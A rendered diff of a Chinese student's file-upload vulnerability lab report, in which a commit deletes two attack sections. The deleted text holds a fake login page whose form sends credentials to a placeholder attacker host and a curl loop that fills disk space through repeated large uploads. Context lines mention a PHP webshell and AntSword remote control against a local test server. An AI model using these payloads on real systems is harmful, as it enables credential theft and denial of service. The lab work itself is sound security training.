

Before and after one commit to 18349455781/college-training-project, a Markdown page: Day4/Day4-文件上传漏洞实验报告-敬君琳.md, the part around one of its changes. Shown at 89% size. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
Day4: 修正实验报告，删除未学内容（HTML钓鱼、大文件DOS）

````diff
--- a/Day4/Day4-文件上传漏洞实验报告-敬君琳.md
+++ b/Day4/Day4-文件上传漏洞实验报告-敬君琳.md
@@ -223,54 +223,6 @@ curl -X POST "http://127.0.0.1:5000/static/uploads/ant.php" \
 
 **结果**：攻击者通过中国蚁剑获得了服务器的完全控制权。
 
-### 4.5 攻击四：上传 HTML 钓鱼页面
-
-**目的**：上传一个伪造的登录页面，诱导其他用户输入凭据。
-
-**钓鱼页面代码**（保存为 `login-fake.html`）：
-
-```html
-<!DOCTYPE html>
-<html>
-<head><title>系统维护中</title></head>
-<body>
-<h2>系统升级，请重新登录</h2>
-<form action="http://攻击者IP/steal.php" method="post">
-    <input type="text" name="username" placeholder="用户名"><br>
-    <input type="password" name="password" placeholder="密码"><br>
-    <input type="submit" value="登录">
-</form>
-</body>
-</html>
-```
-
-**攻击步骤**：
-
-1. 上传 `login-fake.html` 到 `/static/uploads/`
-2. 将链接 `http://127.0.0.1:5000/static/uploads/login-fake.html` 发送给目标用户
-3. 由于 URL 域名是合法站点，用户容易信任
-4. 用户输入的凭据被发送到攻击者服务器
-
-**结果**：钓鱼页面成功部署在合法域名下，极易诱骗用户。
-
-### 4.6 攻击五：上传大文件造成拒绝服务
-
-**目的**：利用无文件大小限制（在 16MB 以内）反复上传大文件，消耗服务器磁盘空间。
-
-```bash
-# 生成一个 15MB 的文件
-dd if=/dev/zero of=bigfile.bin bs=1M count=15
-
-# 循环上传 100 次
-for i in $(seq 1 100); do
-  curl -X POST "http://127.0.0.1:5000/upload" \
-    -b "session=xxx" \
-    -F "file=@bigfile.bin;filename=bigfile_$i.bin"
-done
-```
-
-**结果**：服务器磁盘空间被迅速占满（15MB x 100 = 1.5GB），导致正常用户无法上传，甚至影响系统其他功能。
-
 ---
 
 ## 五、文件上传攻击汇总
@@ -280,8 +232,6 @@ done
 | 1 | Python Webshell 上传 | .py | shell.py | 上传成功，可通过 URL 访问 |
 | 2 | PHP 一句话木马上传 | .php | ant.php | 上传成功，可配合蚁剑连接 |
 | 3 | 中国蚁剑远程控制 | — | — | 连接成功，完全控制服务器 |
-| 4 | HTML 钓鱼页面上传 | .html | login-fake.html | 上传成功，可部署钓鱼攻击 |
-| 5 | 大文件 DOS 攻击 | .bin | bigfile.bin | 上传成功，消耗磁盘空间 |
 
 ---
 
````
Also changed, not shown: other parts of Day4/Day4-文件上传漏洞实验报告-敬君琳.md (+1 -20 lines).
